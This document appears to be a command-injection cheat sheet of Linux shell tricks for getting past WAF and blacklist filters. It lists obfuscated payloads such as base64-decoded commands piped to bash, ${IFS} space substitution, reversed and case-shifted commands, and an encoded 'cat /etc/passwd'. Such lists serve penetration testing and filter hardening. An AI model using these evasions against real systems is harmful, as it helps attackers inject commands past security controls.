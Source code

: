 >List of commands obfuscated as wordlist to test possible WAF filter bypass:  

```
uname
u'n'a'm'e
${uname}
$(uname)
{uname}
$(rev<<<'emanu')
bash<<<$(base64 -d<<<dW5hbWUgLWE=)
b'a's'h'<<<$('b'a's'e'6'4 -d<<<dW5hbWUgLWE=)
l's'${IFS}${PATH:0:1}${IFS}-a'l'
```  

---
# Linux

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with forward slash `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one to produce back slash (`[` -> `\`) |
| `$(tr '!-}' '"-~'<<<:)` | Character Shifting by one to give a semicolon (`:` -> `;`) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |